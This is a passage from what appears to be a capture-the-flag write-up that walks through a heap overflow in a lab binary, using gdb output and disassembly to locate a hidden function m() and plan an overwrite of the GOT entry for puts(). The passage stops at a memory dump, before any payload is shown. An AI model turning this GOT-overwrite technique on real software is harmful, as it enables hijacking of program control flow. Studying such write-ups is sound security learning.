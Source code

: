Overwriting this pointer will allow us to divert control flow to our target function.

---

### Step 3: Get the Address of m()

We locate the address of the hidden function `m()`:

```gdb
(gdb) p m
$1 = {<text variable, no debug info>} 0x080484f4 <m>
```

We will overwrite the GOT entry of `puts()` with this value.

---

### Step 4: Inspect the Heap Layout

We analyze the heap layout to understand how an overflow in one structure can corrupt the next.

From the disassembly of `main()`:

```asm
0x08048536: mov %eax, 0x1c(%esp) ; a = malloc(8)
0x08048565: mov %eax, 0x18(%esp) ; b = malloc(8)
```

So:

* pointer `a` is stored at `[esp + 0x1c]`
* pointer `b` is stored at `[esp + 0x18]`

We break before the second `strcpy()` (i.e., before the overflow happens):

```gdb
(gdb) break *0x080485bd
(gdb) run AAAA BBBB
```

#### Step 4.1 – Recover addresses of `a` and `b`

```gdb
(gdb) print $esp
$1 = (void *) 0xbffff6e0

(gdb) x/wx $esp + 0x1c
0xbffff6fc: 0x0804a008 ← a

(gdb) x/wx $esp + 0x18
0xbffff6f8: 0x0804a028 ← b
```

#### Step 4.2 – Dump memory contents of `a` and `b`

```gdb
(gdb) x/4wx 0x0804a008
0x804a008: 0x00000001 0x0804a018 0x00000000 0x0804a038
```
